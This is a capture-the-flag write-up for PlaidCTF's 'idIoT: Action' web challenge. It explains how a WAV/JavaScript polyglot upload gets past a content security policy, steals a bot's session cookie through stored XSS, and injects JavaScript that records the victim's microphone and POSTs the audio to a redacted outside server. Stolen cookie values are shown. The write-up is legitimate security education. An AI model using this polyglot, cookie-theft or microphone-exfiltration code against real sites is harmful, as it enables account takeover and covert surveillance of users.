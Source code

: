 idIoT: Action
=============

PlaidCTF Web 200

Some people won't let any smart devices in their home at all. Some are cautious, do their research, and make an informed decision. This guy falls in neither category; he's a a downright idIoT.

The idIoT uses this service called [clipshare](https://idiot.chal.pwning.xxx/); you can find his account [here](https://idiot.chal.pwning.xxx/user.php?id=3427e48e-a6eb-4323-aed4-3ce4a83d4f46) or [here](https://idiot.chal.pwning.xxx/user.php?id=8660d251-d77c-4316-ac2c-a9a0662e6240) after you make an account.

He was telling me the other day about how he has a Google Home next to his computer running at all times. He also told me that if you ask politely it will tell you the flag. However, while he'll look at anything you share, he closes it almost immediately if he doesn't seem like it'll interest him. Maybe we can look at his clips to find something to match his interests?

(Flag format: PCTF{xxx} where xxx is some text composed of lower-case letters and underscores)

solution
========

TRIGGER ALERT: some people may find many of the variable names and random strings used to be offensive. No harm was meant, but if you are easily triggered, please do not read further. By reading further you consent to reading possible trigger words.

Based on the problem statement, it looks like this problem will be split into two parts:

1. Hack idiot's account
2. Hack idiot's google home using whatever data we get from his account.

Playing around with the site, it looks like it's vulnerable to xss:

![xss screenshot](https://i.imgur.com/r6gkrHh.png)

Unfortunately, our script is blocked from running by the CSP.

![cucked](https://i.imgur.com/Xj1NQrf.png)

We note that CSP states that scripts can only run from `script-src 'self'`. This means that any javascript I use must come from the server itself. But wait a second: we can post audio files to the website? Is it possible that we could use one of these audio files as our javascript source?

After looking over [this](https://steemit.com/ctf/@maniffin/defcamp-ctf-quals-2017-llc-webchall-writeup) writeup from defcamp, where a crafted GIF file was used to bypass CSP, I felt like it would be possible. So we needed to find an acceptable file format that could also be malformed into valid javascript, while remaining a valid audio file. After playing with ogg files for a while, I realized that WAV files would work:

![wow](https://i.imgur.com/tJUUifV.png)

Here, I've modified the WAV's header such that it is still a valid header, but everything is commented out except the initial `RIFF`. Below, after some bytes from the template WAV file I used, I simply close the comment and finish the javascript command by assigning `RIFF` a value as a variable. After that, I can just add a semicolon, and put any javascript code I want!

... Theoretically.

Unfortunately, uploading this file as a `.wav` did not work, since its MIME type was `audio/x-wav` and was not executable.

![sad](https://i.imgur.com/0iplXMP.png)

Attempting to rename the file to other formats, like `.ogg` still allowed me to upload it, but it still had an audio MIME type. But wait: according to [this site](https://www.freeformatter.com/mime-types-list.html), `.wave` has no associated MIME type, but we are still allowed to upload it!

I ended up uploading this payload:

![lol](https://i.imgur.com/zYkro4Q.png)

Note: this immediately redirects the page to my server when you import it, which may make a later step harder. If you want you can change the payload to something else that will still allow you to exfiltrate the cookie. After uploading, 

Next, I simply created a new post with body

```
<script src="https://idiot.chal.pwning.xxx/uploads/upload_5aee08ef0275e0.94993532.wave"></script>
```

Which, when accessed, immediately steals your cookie! Using burp suite, we shared this link with idiot1 and idiot3, and got cookies.

`qwer=bbcgvivohijl6bgjg37jl6g497;%20PHPSESSID=m1on6drcdgjf7q6hdmm7k2vsi1`

I'm not sure what the qwer cookie was, but oh well. Pasting them as my cookies, I am able to auth as idiot1.

![hacked](https://i.imgur.com/5GP98ee.png)

Reading the posts, it seems that the user will only listen to audio if we send `spatulate` in the description, and from the audio clip in `thoughts on google home`, it states that if you say `OK Google, what is the flag` the google home will say the flag.

Now our next attack is to:

1. hack the microphone
2. use our own uploaded audio clip to say "OK google, what is the flag"
3. exfiltrate microphone recorded data to our own server
4. Get flag!

After some google hackery and copy paste skills, I ended up with this javascript code to activate the microphone, record for 20 seconds, converts it into webm format and then into hex, and send it to my teammate's server (which was HTTPS, since mine was only http). The hardest part of this was actually getting the https exfiltration server up and running. Note: I've redacted his url because he didn't want to get doxxed :^).

```javascript
// appends an audio element to playback and download recording
function createAudioElement(blobUrl) {
  var oReq = new XMLHttpRequest();
  oReq.open("GET", blobUrl, true);
  oReq.responseType = "arraybuffer";

  oReq.onload = function (oEvent) {
    var arrayBuffer = oReq.response; // Note: not oReq.responseText
    if (arrayBuffer) {
      var sicedeets = Array.prototype.map.call(new Uint8Array(arrayBuffer), x => ('00' + x.toString(16)).slice(-2)).join('');
      var oreq2 = new XMLHttpRequest();
      oreq2.open("POST", "<redacted>", true);
      oreq2.send(sicedeets);

      /*
      for (var i=0; i<sicedeets.length; i += 10000) {
        var oreq2 = new XMLHttpRequest();
        oreq2.open("POST", "<redacted>", true);
        oreq2.send(i+"_"+sicedeets.slice(i,i+10000));
      }*/

      
    }
  };

  oReq.send(null);
}

// request permission to access audio stream
navigator.mediaDevices.getUserMedia({ audio: true }).then(stream => {
    // store streaming data chunks in array
    const chunks = [];
    // create media recorder instance to initialize recording
    const recorder = new MediaRecorder(stream);
    // function to be called when data is received
    recorder.ondataavailable = e => {
      // add stream data to chunks
      chunks.push(e.data);
      // if recorder is 'inactive' then recording has finished
      if (recorder.state == 'inactive') {
          // convert stream data chunks to a 'webm' audio format as a blob
          const blob = new Blob(chunks, { type: 'audio/webm' });
          // convert blob to URL so it can be assigned to a audio src attribute
          createAudioElement(URL.createObjectURL(blob));
      }
    };
    // start recording with 1 second time between receiving 'ondataavailable' events
    recorder.start(1000);
    // setTimeout to stop recording after 4 seconds
    setTimeout(() => {
        // this will trigger one final 'ondataavailable' event and set recorder state to 'inactive'
        recorder.stop();
    }, 20000);
  }).catch(console.error);
```

Similarly to our previous attack, I paste this into a malformed wave file:

![screenshot](https://i.imgur.com/LEZQ02D.png)

Again, I upload this file, and copy the URL for it. Then, I import it in another post with title and description `spatulate`.

![spatulate](https://i.imgur.com/8SJefql.png)

Next, I share it with idiot1 again, and wait for the data to start rolling in. After receiving the hex data from idiot1's computer, I simply paste the hex into a hex editor and save as a webm file.

![webm deets](https://i.imgur.com/jbfwkUw.png)

Finally, opening the audio and listening to it gives us the flag.

Flag: `pctf{not_so_smart}`
